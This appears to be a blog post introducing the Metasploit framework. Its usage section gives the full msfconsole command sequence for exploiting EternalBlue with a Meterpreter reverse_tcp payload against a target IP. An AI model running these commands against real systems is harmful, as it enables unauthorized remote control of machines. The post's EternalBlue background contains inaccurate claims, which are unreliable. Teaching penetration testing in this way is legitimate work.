 ```yaml
---
layout: post
title: "MetaSpoilt"
date: "2023-11-21"
categories: [linux, security]
published: true
---
```



Metasploit is a powerful open-source penetration testing framework its an essential tool for security professionals. Originally developed by H.D. Moore in 2003, Metasploit has since evolved into a comprehensive platform that facilitates the discovery, exploitation, and validation of vulnerabilities in various systems.

## What is Metasploit?

Metasploit provides a wide range of tools and resources for penetration testers, security researchers, and information security professionals. It simplifies the process of identifying and exploiting vulnerabilities, allowing users to assess the security of networks, applications, and systems in a controlled environment.

### Key Features of Metasploit

1. **Exploit Development:** Metasploit includes a vast collection of pre-built exploits, payloads, and auxiliary modules that assist in the development and execution of attacks.

2. **Payloads:** The framework supports a variety of payloads, enabling testers to deliver malicious code or actions to target systems. Payloads range from simple command execution to more advanced functionalities like Meterpreter sessions.

3. **Post-Exploitation:** Metasploit goes beyond just exploitation by providing tools for post-exploitation activities. This includes gathering information, privilege escalation, lateral movement, and maintaining access to compromised systems.

4. **Database Integration:** Metasploit integrates with databases to store and manage information about discovered vulnerabilities, exploited systems, and ongoing penetration tests. This facilitates efficient reporting and analysis.

## Getting Started with Metasploit

### Installation

Installing Metasploit is straightforward, and it is compatible with various operating systems, including Linux, Windows, and macOS. The official Metasploit website provides detailed installation instructions for different platforms.

[MetaSpoilt](https://www.metasploit.com/)

### Basic Usage

Once installed, users can launch the Metasploit console to interact with the framework. The command-line interface allows for the execution of various commands and modules.

```markdown
$ msfconsole
```

To demonstrate the simplicity of Metasploit, let's consider a basic scenario. Suppose you want to exploit a known vulnerability such as eternal blue,all you need is the ip address of the target machine. (EternalBlue is a computer exploit developed by the equation group or nationail security agency It was devolped around 2011 but eventually got leaked by the Shadow Brokers hacker group on April 14, 2017 it was designed to exploit a zero-day vulnerability in every version of Windows prior to Windows 8) 

Metasploit simplifies this process using pre-built modules.

```markdown
msf6 > search eternalblue
```
```markdown
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts (targets_ip)
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost (listener_ip)
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

This is a basic example, and Metasploit offers an extensive range of modules for different services, operating systems, and vulnerabilities.

### Conclusion

Metasploit remains an invaluable tool in the realm of cybersecurity, aiding security professionals in identifying and addressing vulnerabilities. Its open-source nature, active community, and continuous development make it a go-to choice for ethical hacking and penetration testing.
